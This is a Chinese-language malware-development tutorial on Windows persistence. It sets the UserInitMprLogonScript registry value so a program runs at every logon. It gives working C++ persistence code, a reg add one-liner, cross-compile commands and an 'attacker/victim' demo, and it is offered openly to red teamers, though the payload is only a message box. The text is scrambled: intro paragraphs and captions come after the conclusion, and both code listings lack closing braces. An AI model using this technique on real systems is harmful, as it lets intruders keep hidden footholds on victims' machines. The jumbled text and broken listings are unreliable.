\newpage
\subsection{恶意软件开发：持久化（第 20 部分）——UserInitMprLogonScript（登录脚本）（简单的 C++ 示例）}

### UserInitMprLogonScript

{width="80%"}

把脚本的路径添加到注册表项 `HKCU\Environment\UserInitMprLogonScript` 即可实现这一点。

### 实战示例

我们来看一个实战示例。

首先，和往常一样，创建「恶意」应用程序。

为了简单起见，和往常一样，它是一个 meow-meow 消息框应用程序（`hack.cpp`）：

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;

```

然后，只需创建持久化脚本（`pers.cpp`）：

```cpp
/*
pers.cpp
windows persistence via
setting UserInitMprLogonScript value
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // env
  const char* env = "Environment";

  // evil app
  const char* exe = "Z:\\2022-12-09-malware-pers-20\\hack.exe";

  // environment
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)env, 0 , KEY_WRITE, 
  &hkey);
  if (res == ERROR_SUCCESS) {
  // update registry key value
  // reg add "HKEY_CURRENT_USER\Environment" /v "UserInitMprLogonScript" /t 
  // REG_SZ /d "...\hack.exe" /f
  RegSetValueEx(hkey, (LPCSTR)"UserInitMprLogonScript", 0, REG_SZ, 
  (unsigned char*)exe, strlen(exe));
  RegCloseKey(hkey);
  }

  return 0;

```

只需把 `HKCU\Environment` 下的 `UserInitMprLogonScript` 项值设置为我们的「恶意软件」的完整路径——`Z:\2022-12-09-malware-pers-20\hack.exe`。

### 演示

我们来看看一切的实际运行。

```powershell
reg query "HKCU\Environment" /s
```

{width="80%"}

然后，在攻击者的机器上（kali）编译我们的「恶意软件」：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

为了检查正确性，试着在受害者的机器上（我的例子是 Windows 10 x64）运行 `hack.exe`：

```powershell
.\hack.exe
```

{width="80%"}

如你所见，我们的「恶意软件」运行完美。

下一步，我们在攻击者的机器上编译持久化脚本：

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

并在受害者的机器上运行它：

```powershell
.\pers.exe
```

然后，再次检查我们的注册表项值：

```powershell
reg query "HKCU\Environment" /s
```

{width="80%"}

如你所见，项（`UserInitMprLogonScript`）的值已被设置。

几百毫秒之后，我们的「恶意软件」meow-meow 弹了出来：

{width="80%"}

{width="80%"}

然后，如果我们打开 Process Hacker 并检查 `hack.exe` 的属性：

{width="80%"}

例如 Windows 资源管理器——`explorer.exe`。

{width="80%"}

{width="80%"}

它的父进程是 `userinit.exe` 或 `winlogon.exe`，但也可以是任何使用 `explorer.exe` 的 `.exe`。

由于 `userinit.exe` 会自行终止，因此父进程会显示为 `<Non-existent Process>`。

另一个例子是 Windows 登录——`winlogon.exe`。

{width="80%"}

由于 `smss.exe` 已退出，因此父进程「不存在」。

一切运行完美！=..=

```powershell
Remove-ItemProperty -Path "HKCU:\Environment" -Name "UserInitMprLogonScript"
```

{width="80%"}

实验结束后，删除该项：

在野外，这个持久化技巧被 APT28 组织以及 Attor 和 Zebrocy 等软件使用。

我希望这篇文章能让蓝队成员了解这个有趣的技巧，并为红队成员的武器库增添一件武器。

这篇文章介绍一个比较有趣的恶意软件持久化技巧：通过 `UserInitMprLogonScript` 值实现持久化。

只要某个用户或某组用户登录系统，Windows 就允许执行登录脚本。

因此，为了建立持久化，黑客可以利用在登录初始化时自动执行的 Windows 登录脚本。

如你所见，逻辑很简单。

首先，检查注册表：

就这样。

试着注销并重新登录：

我们会看到父进程是「不存在的」进程。

如果你至少稍微研究过 Windows 内部机制，就会知道存在一些以「不存在的」进程为父进程的进程。

如果我们通过 Sysinternals Process Explorer 检查 `hack.exe` 的属性，就能看到「Autostart Location」值：
